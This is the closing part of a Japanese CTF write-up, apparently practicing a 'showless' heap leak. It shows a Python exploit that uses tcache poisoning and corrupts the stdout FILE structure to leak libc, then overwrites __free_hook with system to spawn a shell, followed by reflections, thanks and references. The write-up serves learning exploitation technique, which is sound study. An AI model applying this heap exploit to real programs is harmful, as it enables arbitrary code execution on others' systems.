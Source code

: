 ```python

    add(s, 0x28)  # 0
    delete(s, 0)
    delete(s, 0)
    add(s, 0x28, p64(stdout_elf))  # 1
    add(s, 0x28)  # 2
    add(s, 0x28, b"\x60")  # 3

    payload = p64(0xfbad1880) + p64(0) * 3 + b"\x08"
    add(s, 0x28, payload)  # 4

    libc_addr = u64(s.recv(6).ljust(8, b"\x00")) - offset

    print(hex(libc_addr))

    # assertion
    # libc_addr_check = u64(show(s, 3).ljust(8, b"\x00")) - stdout_libc
    # assert libc_addr == libc_addr_check

    add(s, 0x18)  # 5
    delete(s, 5)
    delete(s, 5)
    add(s, 0x18, p64(libc_addr + free_hook_libc))  # 6
    add(s, 0x18)  # 7
    add(s, 0x18, p64(libc_addr + system_libc))  # 8
    
    add(s, 0x18, b"/bin/sh\x00")  # 9
    delete(s, 9)

    s.interactive()
```

## Flag

ローカルでシェル取っただけ

## 感想

非常に高い壁だと思っていたshowless leakだがひとまず原理を実戦に落とし込むことが出来て嬉しかった。次は実際にshowlessとして出題された問題を解いてみたい(Unsorted Binで降ってきたfdとoverlapしたtcache中のチャンクのnextの下位バイトを書き換えてtcache poisoningするらしい、難しそう)。

## Special Thanks

shortbufについて色々と教えてくれた弊チームの低レイヤー担当のDronexくん

## 参考文献

1. [ヒープ系問題におけるstdout / stderrを利用したメモリリーク](https://ptr-yudai.hatenablog.com/entry/2019/05/31/235444)
2. [HITCON CTF: baby_tcache Writeup](https://vigneshsrao.github.io/babytcache/)
3. [【pwn8.2】 baby_tcache - HITCON CTF 2018: 無理やりの出力](https://smallkirby.hatenablog.com/entry/2019/09/27/201019)